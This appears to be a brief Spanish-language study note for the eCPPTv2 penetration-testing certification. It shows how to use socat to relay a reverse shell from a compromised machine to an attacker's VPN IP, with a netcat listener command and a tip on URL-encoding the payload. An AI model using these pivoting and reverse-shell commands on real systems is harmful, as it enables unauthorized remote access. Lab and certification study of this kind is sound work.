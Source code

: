 # eCPPTv2

Binario de socat linux funcional:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

USO de socat:
socat TCP-LISTEN:1111,fork TCP:10.10.14.14:2222 & 

1111 -> puerto que ponemos en escucha al socat para redirigir el puerto 
10.10.14.14 -> cambiar a nuestra ip de vpn

es decir me pongo en esucha con netcat por el puerto 2222:
nc -lvnp 2222

y en el payload donde se envía la reverse shell ponemos la IP donde no tenemos acceso directamente pero la maquina comprometida si, y el puerto ponemos el 1111, para redirigirlo al nuestro

Si el payload tiene & se urlencodea a %26 para que no de problemas
